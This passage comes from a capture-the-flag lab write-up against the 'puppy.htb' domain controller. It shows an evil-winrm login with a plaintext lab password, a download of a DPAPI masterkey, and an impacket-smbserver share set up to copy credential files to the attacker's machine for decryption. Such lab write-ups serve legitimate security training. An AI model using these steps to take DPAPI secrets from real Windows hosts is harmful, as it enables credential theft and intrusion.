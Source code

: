 ```
~$ evil-winrm -i dc.puppy.htb -u steph.cooper -p ChefSteph2025!
                                        
Evil-WinRM shell v3.7                                        
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> 
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> dir

    Directory: C:\Users\steph.cooper\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   7:40 AM            740 masterkey

*Evil-WinRM* PS C:\Users\steph.cooper\Documents> download masterkey
                                        
Info: Downloading C:\Users\steph.cooper\Documents\masterkey to masterkey
```

<p class="indent-paragraph">
To facilitate the extraction of multiple sensitive files from the target system, an SMB share was set up on the attacker's machine using<code>impacket-smbserver</code><span class="codefix">.</span> By executing<code>impacket-smbserver share ./share -smb2support</code><span class="codefix">,</span> a writable SMBv2-compatible file share named<code>share</code> was made available. This allowed us to copy files from the compromised Windows host directly to our local directory via UNC paths (e.g.,<code>\<attacker-ip>\share</code>). This method proved efficient for retrieving artifacts such as the<code>masterkey</code> file, streamlining the collection process without relying on slower in-session downloads through<code>evil-winrm</code><span class="codefix">.</span>
</p>

```
~$ mkdir -p share

~$ impacket-smbserver share ./share -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
.......
```

<p class="indent-paragraph">
After gaining access with the <code>steph.cooper</code> account, we actively searched for DPAPI-related artifacts and located two critical files: a <code>masterkey</code> under <code>C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect</code> and a <code>credential blob</code> in <code>C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials</code><span class="codefix">.</span> To extract these files, a local SMB share was created using <code>impacket-smbserver</code><span class="codefix">,</span> allowing them to be remotely copied via <code>evil-winrm</code> using the <code>copy</code> command. Retrieving these files is essential in post-exploitation scenarios, as they can be combined with the user's password (or NT hash) to decrypt DPAPI-protected secrets using tools such as <code>SharpDPAPI</code> or <code>dpapi.py</code><span class="codefix">.</span> These secrets may include stored credentials, tokens, or other sensitive user data.
</p>
